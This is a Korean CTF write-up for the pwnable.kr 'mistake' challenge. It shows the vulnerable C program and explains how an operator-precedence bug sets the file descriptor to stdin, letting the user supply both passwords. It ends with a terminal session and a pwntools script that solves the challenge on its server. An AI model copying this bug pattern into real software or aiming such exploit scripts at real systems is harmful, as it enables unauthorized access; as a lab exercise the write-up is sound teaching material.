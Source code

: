 ```yaml
---
title: "[pwnable.kr]Toddler/mistake"
tags: [pwnable.kr, Toddler's Bottle, writeup]
author: eli_ez3r
key: 20180918
modify_date: 2018-09-18
article_header:
  type: cover
  image:
    src: /assets/img/write-up/pwnable_kr.png
---
```


-----

```
We all make mistakes, let's move on.
(don't take this too seriously, no fancy hacking skill is required at all)

This task is based on real event
Thanks to dhmonkey

hint : operator priority

ssh mistake@pwnable.kr -p2222 (pw:guest)
```

-----

```c
#include <stdio.h>
#include <fcntl.h>

#define PW_LEN 10
#define XORKEY 1

void xor(char* s, int len){
        int i;
        for(i=0; i<len; i++){
                s[i] ^= XORKEY;
        }
}

int main(int argc, char* argv[]){

        int fd;
        if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0){
                printf("can't open password %d\n", fd);
                return 0;
        }

        printf("do not bruteforce...\n");
        sleep(time(0)%20);

        char pw_buf[PW_LEN+1];
        int len;
        if(!(len=read(fd,pw_buf,PW_LEN) > 0)){
                printf("read error\n");
                close(fd);
                return 0;
        }

        char pw_buf2[PW_LEN+1];
        printf("input password : ");
        scanf("%10s", pw_buf2);

        // xor your input
        xor(pw_buf2, 10);

        if(!strncmp(pw_buf, pw_buf2, PW_LEN)){
                printf("Password OK\n");
                system("/bin/cat flag\n");
        }
        else{
                printf("Wrong Password\n");
        }

        close(fd);
        return 0;
}
```

`mistake.c`파일을 열어보면 위와 같다.

-----

### 0x00. Analysis

무작위공격을 방지하기 위해 최대 19초의 sleep을 걸어준다.

그리고 `password` 파일을 열어 내용을 읽어 `pw_buf`에 저장한다. 이후 사용자로 부터 비밀번호를 입력받아 1과 xor한 후 그 값을 `pw_buf`와 비교하여 맞으면 문제가 풀린다. 

Really???

이렇게 코드를 분석 했다면 **당신은 문제를 풀 수 없다. ㅋㅋㅋㅋㅋㅋ**

-----

### 0x01. Real Analysis

```c
if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0){
    printf("can't open password %d\n", fd);
    return 0;
}
```

이 부분을 자세히 살펴보자. 

```c
fd = open("/home/mistake/password",O_RDONLY,0400) < 0
```

특히 이부분이다.

우리가 순간적으로 코드를 분석 할 때, password파일을 열고 해당 파일의 디스크립터 번호가 fd에 들어가며 그 값이 0보다 작으면 if문이 실행된다고 생각하지만...

[!] 아니다.

소스코드를 보면 연산자가  2가지가 존재한다. `=` 와 `<` 가 있다. 두개의 연산자 중에서 `<`가 우선 순위가 더 높다.

이렇게 되면 분석이 완전히 달라진다.

`open()` 함수가 실행되고 나서 파일 디스크립트 번호가 부여된다. 파일이 존재하면 이 값은 항상 0보다 클 것이다. 예를들어 `3`이라는 값을 부여받았을 때, `3 < 0` 의 결과는 `False`가 된다.  False는 `0`의 값을 가지므로, `fd`에 `0`이 대입되게 된다.

```c
if(!(len=read(fd,pw_buf,PW_LEN) > 0)){
    printf("read error\n");
    close(fd);
    return 0;
}
```

이후 if문에서 `read`가 실행되는데, 이때 `fd`값이 `0` 이므로, 키보드로 부터 값을 입력받게 된다.

> 그래서 19초가 지나도 반응이 없다가 엔터를 쳐야 "input password :" 텍스트가 보였던 것!!!

따라서, 사용자가 `pw_buf`와 `pw_buf2`의 값을 모두 입력할 수 있다는 것이다.

-----

### 0x02. Exploit

`pw_buf2` ^ `1` = `pw_buf` 이면 되므로,

```
mistake@prowl:~$ ./mistake
do not bruteforce...
1111111111
input password : 0000000000
Password OK
Mommy, the operator priority always confuses me :(
```

끄읏....!!

-----

```python
from pwn import *
import time

conn = ssh("mistake", "pwnable.kr", port=2222, password="guest")
p = conn.process("./mistake")

p.recv()
time.sleep(20)
p.sendline("1111111111")
p.recvuntil("input password : ")
p.sendline("0000000000")

print p.recv()
p.close()
conn.close()
```

-----

